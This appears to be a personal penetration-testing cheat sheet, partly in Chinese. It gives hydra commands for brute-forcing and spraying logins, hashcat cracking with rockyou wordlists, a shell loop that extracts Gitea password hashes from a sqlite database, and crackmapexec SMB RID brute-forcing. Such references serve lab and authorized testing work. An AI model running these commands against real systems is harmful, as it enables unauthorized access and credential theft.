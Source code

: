 - HTTP POST login forms
`hydra -e nsr -l admin -P /usr/share/wordlists/rockyou.txt {IP} http-post-form "/{Path}?login=1:username=admin&password=^PASS^:F={Failed word} "`
- web page pwd protected
`hydra -e nsr -l admin -P rockyou.txt {IP} http-get "/"`
- Spraying
`hydra -e nsr -L /Users/CWei/Tool/dirb/wordlists/others/names.txt -p "{PWD}" rdp://{IP}`

## Hash
### Hashcat
- `hashid '{HASH}' -m`
- `hashcat -m {mode} {file.hash} /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force`

## Wordlists
- rockyou: `/usr/share/wordlists/rockyou.txt`
- `/usr/share/seclists`
- Protocol pwd: `/usr/share/seclists/Passwords/Default-Credentials`
- cewl 根據網站產生 wordlists
 `cewl -w custom_wordlist.txt {URL}`
- `cupp  -i`

## SQL
### Sqlite3
- `sqlite3 {DB file}`
- `sqlite> .tables`
- `sqlite> .schema users`
- `sqlite> SELECT * FROM users;`
- Admin: `sqlite> SELECT id, name, is_admin FROM user WHERE is_admin = 1;`
- (PBKDF2-HMAC-SHA256) Hash: `${username}:sha256:50000:${salt}:${digest}`
`sqlite3 _home_developer_gitea_data_gitea_gitea.db "select passwd,salt,name from user" | while read data; do 
  digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64)
  salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64)
  name=$(echo $data | cut -d'|' -f3)
  echo "${name}:sha256:50000:${salt}:${digest}"
done | tee sqlites3.hash`
- bcrypt (`$2a$12$...`) Hash: 
```
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
$2a$12$ot8ihGHYNN5YZ8xbXYmURu2CuT/xFzE5sj3XMNd3a6c3Wzze7fSsq
...
```
- `hashcat sqlites3.hash /usr/share/wordlists/rockyou.txt --user`
- [Mac] `hashcat gitea.hash /usr/share/wordlists/rockyou.txt --user`

# Intranet Penetration
## crackmapexec
![image](https://hackmd.io/_uploads/HJUI-iRh1e.png)
- `crackmapexec smb {IP} -u 'guest' -p '' --rid-brute`
